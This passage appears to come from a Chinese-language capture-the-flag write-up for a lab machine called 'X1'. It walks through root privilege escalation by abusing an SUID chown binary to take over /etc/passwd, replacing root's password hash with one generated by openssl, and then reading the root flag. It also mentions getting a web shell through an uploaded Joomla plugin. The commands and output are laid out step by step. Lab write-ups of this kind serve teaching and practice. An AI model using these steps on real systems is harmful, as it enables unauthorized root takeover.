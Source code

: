 ```shell
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/libexec/polkit-agent-helper-1
```

发现了 `/usr/bin/chown` 这个老朋友，并且有SUID权限。
查阅 GTFOBins ([https://gtfobins.github.io/gtfobins/chown/#suid](https://gtfobins.github.io/gtfobins/chown/#suid))：

![image-20250511223840468](https://7r1umphk.github.io/image/20250511223840670.webp)

思路就是用 `chown` 把 `/etc/passwd` 的所有权改成 `www-data`，然后我们就可以编辑它，给root用户改个密码（或者直接添加一个带root权限的新用户）。

**生成密码哈希：**
在Kali上用 `openssl` 生成一个密码 `888888` 的哈希：

```shell
┌──(kali㉿kali)-[/mnt/hgfs/gx]
└─$ openssl passwd 888888   
$1$FRnIm4sd$wXAhXRwWvKAL1viFFq.9A1
```

**开始操作：**
在 `www-data` 的Shell里：

1. 更改 `/etc/passwd` 的所有权：

   ```shell
   www-data@X1:/var/www/html/administrator$ chown www-data:www-data /etc/passwd
   ```

2. 编辑 `/etc/passwd` (如果目标机上有 `nano` 或 `vi` 就方便多了，没有的话就得想办法把内容弄出来改了再覆盖回去)：

   ```shell
   www-data@X1:/var/www/html/administrator$ nano /etc/passwd
   ```

   找到 `root` 用户那一行，通常是 `root:x:0:0:root:/root:/bin/bash`，把 `x` 替换成我们生成的哈希 `$1$FRnIm4sd$wXAhXRwWvKAL1viFFq.9A1`。
   修改后变成：`root:$1$FRnIm4sd$wXAhXRwWvKAL1viFFq.9A1:0:0:root:/root:/bin/bash`

   ![image-20250511224840653](https://7r1umphk.github.io/image/20250511224840863.webp)
   保存退出。

3. 切换到 `root` 用户：

   ```shell
   www-data@X1:/var/www/html/administrator$ su -
   Password:  # 输入 888888
   root@X1:~# id
   uid=0(root) gid=0(root) groups=0(root)
   ```

   成功拿到 root 权限！

#### 4. 读取最终的 Flag

```shell
root@X1:~# cat /root/root.txt
flag{root-72c0cd908b77fd5a4d0c988f7e002431}    
```

搞定！

### 四、总结

这个 X1 靶机，前期信息收集阶段那个 UDP 80 端口的"鲨鱼"提示确实有点意思，没注意到的话估计得卡一会儿（我就是那个冤种）。拿到 Joomla 后台凭据后，上传插件 getshell 属于常规操作。最后的 `chown` SUID 提权也是比较经典的利用方式。整体来说，确实是“比较简单”，但过程还是挺有趣的。